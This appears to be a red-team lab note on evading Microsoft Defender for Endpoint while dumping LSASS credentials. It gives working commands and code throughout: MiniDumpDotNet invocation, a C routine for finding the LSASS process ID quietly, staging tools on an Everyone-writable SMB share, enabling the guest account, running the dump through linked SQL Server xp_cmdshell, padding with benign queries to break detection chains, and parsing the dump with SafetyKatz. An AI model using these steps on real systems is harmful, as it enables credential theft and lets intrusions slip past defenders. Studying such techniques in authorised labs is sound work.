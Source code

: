 # MDE

Endpoint Detection and Response (EDR) systems are designed to protect individual machines by continuously monitoring for malicious behavior and correlating events to detect attacker techniques, tactics, and procedures (TTPs). These systems go beyond traditional antivirus by analyzing behaviors over time, even when no single action is flagged as malicious. **Microsoft Defender for Endpoint (MDE)**, Microsoft’s native EDR, collects telemetry from the operating system and evaluates it using cloud-based analytics to identify suspicious patterns across endpoints.

## LSASS Dump

Direct interaction with the LSASS process—particularly for credential extraction—is highly monitored by MDE. While many tools attempt to dump LSASS memory by opening a process handle and invoking `MiniDumpWriteDump` from `dbghelp.dll`, this standard behavior is easily detected. A more OPSEC-conscious approach involves **creating a dump covertly and exfiltrating it for offline analysis**.

[MiniDumpDotNet](https://github.com/WhiteOakSecurity/MiniDumpDotNet) provides an alternative that bypasses standard dump APIs. It implements a custom version of `MiniDumpWriteDump` and supports .NET CLR injection into LSASS, allowing execution via standalone binaries, PowerShell reflection (`Assembly.Load()`), or even JScript/VBS loaders. It is capable of dumping various processes, including Outlook, which may contain plaintext credentials.

```powershell
.\minidumpdotnet.exe <lsass-PID> <dump-output-path>
```

Even identifying the LSASS PID with commands like `tasklist /v` can trigger alerts in MDE. To reduce visibility, process enumeration can be performed using native WinAPI calls. For example, calling `CreateToolhelp32Snapshot` and looping through `Process32Next` enables resolving a process ID without relying on standard enumeration commands:

{% code title="FindPID.c" %}
```cpp
int FindPID(const char* procname) {
    int pid = 0;
    PROCESSENTRY32 proc = {};
    proc.dwSize = sizeof(PROCESSENTRY32);
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    bool bProc = Process32First(snapshot, &proc);
    while (bProc) {
        if (strcmp(procname, proc.szExeFile) == 0) {
            pid = proc.th32ProcessID;
            break;
        }
        bProc = Process32Next(snapshot, &proc);
    }
    return pid;
}
```
{% endcode %}

Embedding this logic within a known tool like MiniDumpDotNet can lead to detection, but compiling it separately as a standalone binary typically evades both Defender AV and MDE.

## File Transfers

Tool staging and execution methods also influence detection. Downloading binaries over HTTP(S) raises red flags unless masqueraded under legitimate binaries such as `msedge.exe`. A cleaner method is to **host tools on an SMB share** with `Everyone` granted read/write access, enabling direct execution without local persistence.

## Detection Chains

EDRs such as MDE correlate actions within tight timeframes. **Chaining multiple suspicious operations can trigger detections**, even if each action alone appears benign. Introducing delays between commands (e.g., 10 minutes) or interleaving benign activity (like harmless SQL queries) helps break detection logic.

## Lateral Movement

When moving laterally, MDE heavily monitors built-in methods like PsExec, WMI, and PowerShell Remoting through ASR (Attack Surface Reduction) rules. These Lua-based detection scripts can be extracted and analyzed directly from target systems. Alternatives such as `winrs` offer reduced visibility in MDE but may still be flagged by Microsoft Defender for Identity (MDI).

## Example

A full LSASS dumping workflow over a linked SQL Server can be performed covertly using MSSQL’s `xp_cmdshell`. Begin by enabling guest access if needed:

```powershell
# Enable guest access
net user guest /active:yes
```

Next, create a network share (e.g., `studentshare337`) with Read/Write permissions to Everyone and copy over binaries. Dumping begins by resolving the LSASS PID via a custom utility over the SQL link:

{% code overflow="wrap" %}
```powershell
# Execute the binary on the target
>Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\DCORP-STD337.dollarcorp.moneycorp.local\studentshare337\FindLSASSPID.exe''' -QueryTarget eu-sql23

Instance    : EU-SQL23
CustomQuery : {[+] LSASS PID: 708, }
```
{% endcode %}

To break correlation, follow with a benign command:

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'SELECT @@version' -QueryTarget eu-sql23
```
{% endcode %}

Then perform the LSASS dump, writing the output directly to the share:

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\host\share\minidumpdotnet.exe 708 \\host\share\lsass.dmp''' -QueryTarget eu-sql23
```
{% endcode %}

After exfiltration, the dump can be parsed offline using SafetyKatz:

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "sekurlsa::minidump c:\path\to\lsass.dmp" "sekurlsa::evasive-keys" "exit"
```
{% endcode %}

This approach minimizes footprint, avoids standard telemetry triggers, and maintains operational control in environments actively defended by MDE and MDI.

